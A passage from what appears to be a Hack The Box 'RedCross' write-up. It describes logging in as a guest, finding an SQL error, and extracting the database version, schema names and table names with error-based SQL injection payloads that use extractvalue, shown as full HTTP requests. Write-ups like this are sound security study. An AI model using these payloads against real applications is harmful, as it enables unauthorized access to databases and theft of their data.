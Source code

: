After requesting as it is described, it shows a message that contains temporary credentials as _guest:guest_ while my request is processed.
The credentials  of _guest_ work and logs us into the system:

![Login with guest](https://kyuu-ji.github.io/htb-write-up/redcross/redcross_web-2.png)

Input on the _UserID_ errors out when using a _single quote_ which means there is some kind of **SQL Injection** vulnerability in this function:
```
DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '5' or dest like '1'') LIMIT 10' at line 1
```

### Exploiting SQL Injection Vulnerability

The SQL query that is sent, looks probably something like this:
```
select message from table where (message like '5' or dest like '<injection>') LIMIT 10'
```

By sending malicious SQL queries to the application, it is possible to force the error message to display information from the database.
This is called **Error-based SQL Injection** and can be abused with the `extractvalue` command.
```
GET /?o=') and extractvalue(0x0a,concat(0x0a,version()))-- -&page=app HTTP/1.1
Host: intra.redcross.htb
```

It responds with the version of the MariaDB installation, which proofs the SQL Injection is successful:
```
10.1.26-MariaDB-0+deb9u1
```

Getting information about the tables:
```
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1)))--+-&page=app
```

There are two databases:
- _information_schema_
- _redcross_

Getting table names from the _redcross_ database:
```
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 0,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 1,1)))--+-&page=app
GET /?o=')+and+extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 2,1)))--+-&page=app
```

The table names are:
- _messages_
- _requests_
- _users_

